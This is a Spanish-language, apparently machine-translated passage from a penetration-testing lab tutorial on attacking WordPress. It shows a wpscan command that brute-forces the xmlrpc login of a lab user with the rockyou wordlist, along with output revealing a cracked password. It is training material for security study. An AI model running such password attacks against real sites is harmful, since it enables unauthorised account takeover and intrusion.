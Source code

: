# Attacking WordPress

Hemos confirmado que el sitio web de la compañía se está ejecutando en WordPress y enumeró la versión y los complementos instalados. Veamos ahora rutas de ataque e intentemos obtener acceso a la red interna.

Hay varias formas de abusar`built-in functionality`Para atacar una instalación de WordPress. Cubriremos el forzamiento bruto de inicio de sesión contra el`wp-login.php`Página y ejecución de código remoto a través del editor de temas. Estas dos tácticas se construyen entre sí, ya que primero necesitamos obtener credenciales válidas para que un usuario de nivel de administrador inicie sesión en el back-end de WordPress y edite un tema.

---

# **Iniciar sesión Bruteforce**

WPSCAN se puede utilizar para los nombres de usuario y contraseñas de fuerza bruta. El informe de escaneo en la sección anterior devolvió a dos usuarios registrados en el sitio web (Admin y John). La herramienta utiliza dos tipos de ataques de fuerza bruta de inicio de sesión,[xmlrpc](https://kinsta.com/blog/xmlrpc-php/)y wp-login. El`wp-login`El método intentará forzar la página de inicio de sesión de WordPress estándar, mientras que el`xmlrpc`El método utiliza la API de WordPress para hacer intentos de inicio de sesión a través de`/xmlrpc.php`. El`xmlrpc`Se prefiere el método ya que es más rápido.

Atacando a WordPress

```
xnoxos@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23

```
